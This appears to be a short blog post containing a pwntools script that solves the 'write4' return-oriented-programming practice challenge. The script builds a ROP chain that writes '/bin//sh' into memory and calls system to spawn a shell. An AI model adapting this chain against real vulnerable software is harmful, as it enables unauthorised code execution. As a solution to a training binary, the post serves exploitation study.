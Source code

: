 ```yaml
---
layout: post
published: true
title: ROP chain
---
```


{% highlight python linenos %}
#Completed
from pwn import *

p = process('./write4')
elf = ELF('./write4')
rop = ROP(elf)

pop_r14_r15 = (rop.find_gadget(['pop r14','pop r15', 'ret']))[0]
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
usefulGadget = elf.symbols['usefulGadgets']
SYSTEM = elf.symbols['system']
data_addr = 0x0000000000601050
padding = 'a'*40 

payload = padding + p64(pop_r14_r15) + p64(data_addr) + '/bin//sh' + p64(usefulGadget) + p64(pop_rdi) + p64(data_addr) + p64(SYSTEM) 

p.sendline(payload)
p.interactive()
{% endhighlight %}
